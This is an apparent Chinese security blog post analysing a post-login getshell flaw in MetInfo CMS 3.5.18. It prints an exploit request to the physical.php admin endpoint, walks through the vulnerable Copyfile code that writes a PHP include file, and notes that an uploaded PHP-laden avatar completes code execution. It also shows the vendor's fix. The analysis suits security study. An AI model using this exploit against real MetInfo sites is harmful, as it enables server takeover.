 ```yaml
---
layout:     post
title:    "metinfo3.5.18后台getshell分析"
category: blog
author:     "bluebird"
date:     2017-11-25
description: metinfo3.5.18后台getshell分析
tags:
    - web安全
    - 漏洞分析
---
```

此漏洞已经在最新版修复
### exp
 ` /admin/app/physical/physical.php?action=op&op=3&valphy=test|文件名&address=包含文件`
 
### 代码分析

<!-- more -->
查看关键代码
```php
case 3:
			$fileaddr=explode('/',$val[1]);
			$filedir="../../../".$fileaddr[0];  
			if(!file_exists($filedir)){ @mkdir ($filedir, 0777); } 
			if($fileaddr[1]=="index.php"){
				if($val[2]){
					Copyindx("../../../".$val[1],$val[2]);
				}
			}else{
			// 漏洞点
			switch($val[2]){
				case 1:
					$address="../about/$fileaddr[1]";
				break;
				case 2:
					$address="../news/$fileaddr[1]";
				break;
				case 3:
					$address="../product/$fileaddr[1]";
				break;
				case 4:
					$address="../download/$fileaddr[1]";
				break;
				case 5:
					$address="../img/$fileaddr[1]";
				break;
				case 8:
					$address="../feedback/$fileaddr[1]";
				break;
			

			}   
				$newfile  ="../../../$val[1]"; 
				
				Copyfile($address,$newfile);
				
			}
			echo $lang_physicalgenok;
			break;
```
我们可以看到我们可控参数`$address`和`newfile`传入了`Copyfile`
主要是程序员写代码的时候忽略了异常参数导致address参数没有被覆盖,应该添加不是正常参数时不执行`Copyfile`

查看`Copyfile`函数
```php
function Copyfile($address,$newfile){
	$oldcont  = "<?php\n# MetInfo Enterprise Content Management System \n# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved. \nrequire_once '$address';\n# This program is an open source system, commercial use, please consciously to purchase commercial license.\n# Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.\n?>";
	if(!file_exists($newfile)){
		$fp = fopen($newfile,w);
		fputs($fp, $oldcont);
		fclose($fp);
	}
}
```
此函数可以创建并写入文件
可以看到此函数我们可以控制文件名,不过单引号导致我们只能控制require_once参数.
不过也造成了文件包含漏洞,上传一个php代码头像,即可getshell


查看最新版本修复方法
```php
	default:
		 $address = "";
	break;
```
添加了不是正常参数时候默认为空

不过我还想吐槽一下这cms好多直接写入php文件的方法啊